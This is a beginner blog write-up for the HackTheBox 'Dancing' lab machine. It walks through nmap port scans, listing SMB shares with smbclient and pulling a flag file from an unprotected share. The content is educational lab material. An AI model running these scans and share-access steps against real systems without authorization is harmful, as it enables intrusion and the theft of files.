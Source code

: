 ```yaml
---
title: Windows Hacking for Beginners - The Dancing Box
date: 2023-10-18 00:00:00 -500
categories: [Hacking for Beginners, Boot2root CTFs]
tags: [CTFs, HTB, Easy, Hacking]
image:
    path: https://i.ibb.co/tzxvvNV/dancing-HTB.jpg
---
```

Hello Everyone, In this blog, I will guide you through the steps to solve the ***Dancing*** machine, part of the **Starting Point** labs on HacktheBox. This machine has been classified `Free` and **Very Easy** making it an ideal choice for beginners looking to embark on their journey into the exciting world of ethical hacking.
If you're eager to enhance your hacking skills and learn alongside us, we invite you to join the ranks of aspiring hackers and cybersecurity enthusiasts.

- **The Best Academy to Learn Hacking is [Here](https://affiliate.hackthebox.com/nenandjabhata)**.
- **Beginner Friendly challenges on TryHackMe [Here](https://tryhackme.com/signup?referrer=61e8a27ddd3f3b00496505d1)**.

## Enumeration(Recon)

**First Basic Scan**
```terminal
└─# nmap 10.129.67.178               
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 35.64 seconds
```
In this initial step of enumeration, we employ the Nmap tool to scan the target machine, which is identified by the IP address `10.129.67.178`. The purpose of this scan is to discover open ports and services running on the target system.

**Second Scan**
In the second scan, we will use Nmap with version detection (`-sV`) and default scripts (`-sC`) to gather more information about the target.
```terminal
└─# nmap -sV -sC -Pn -p135,139,445 10.129.67.178
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 4h04m50s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-10-18T01:05:10
|_  start_date: N/A
```
 - The results show detailed service information for the open ports (135/tcp, 139/tcp, and 445/tcp), including their corresponding Windows services. This scan serves as a more comprehensive examination of the target's services, aiding in vulnerability assessment.

Here we found `SMB` port 139 and 445. for more about smb Hacking look at this : [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb).

**Enumerating Shares with smbclient**
Using the `smbclient` tool with the `-L` flag and the specified IP address, we perform a share enumeration on the target system.
```terminal
└─# smbclient -L $ip
Password for [WORKGROUP\bloman]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk  
```
After providing the requested password, the command returns a list of accessible shares:

   - `ADMIN$`: This is a disk share used for remote administration.
   - `C$`: It's a disk share representing the default administrative share.
   - `IPC$`: This is an Inter-Process Communication share for remote IPC.
   - `WorkShares`: A disk share that may contain additional resources or information relevant to the system.

## Foothold
Let's try to connect on every share available, i begin with `ADMIN$`
```terminal
└─# smbclient  \\\\10.129.67.178\\ADMIN$    
Password for [WORKGROUP\bloman]:
tree connect failed: NT_STATUS_ACCESS_DENIED
```
This outcome suggests that access to the `ADMIN$` share is currently denied or restricted, which is a common security measure in Windows environments. Our next steps will involve further exploration to identify accessible shares.

Let's move on to the share `C$`
```terminal
└─# smbclient  \\\\10.129.67.178\\C$
Password for [WORKGROUP\bloman]:
tree connect failed: NT_STATUS_ACCESS_DENIED
```
Same output. Let's move to WorkShares.
```terminal
└─# smbclient  \\\\10.129.67.178\\WorkShares
Password for [WORKGROUP\bloman]:
Try "help" to get a list of possible commands.
```
Upon moving to the `WorkShares share`, we successfully establish a connection.
```terminal
smb: \> ls
  .                                   D        0  Mon Mar 29 08:22:01 2021
  ..                                  D        0  Mon Mar 29 08:22:01 2021
  Amy.J                               D        0  Mon Mar 29 09:08:24 2021
  James.P                             D        0  Thu Jun  3 08:38:03 2021
cd 
		5114111 blocks of size 4096. 1747687 blocks available
smb: \> cd James.P
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 08:38:03 2021
  ..                                  D        0  Thu Jun  3 08:38:03 2021
  flag.txt                            A       32  Mon Mar 29 09:26:57 2021

```
we can list the contents of the share. The share contains subdirectories, and we navigate to the `James.P` directory.
```terminal
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \James.P\> 
```
In the `James.P` directory, we find a file named `flag.txt` last modified on March 29, 2021. This discovery is significant as it could potentially lead to gaining access to sensitive information or serve as an entry point for further exploitation and privilege escalation on the target system. The presence of `flag.txt` piques our interest, and we proceed to examine its contents.
### Join Us
Thanks for reading. **Let's learn, explore, and hack together**. **Join us on Discord [here](https://discord.gg/wBT9wr9ruG)**. 
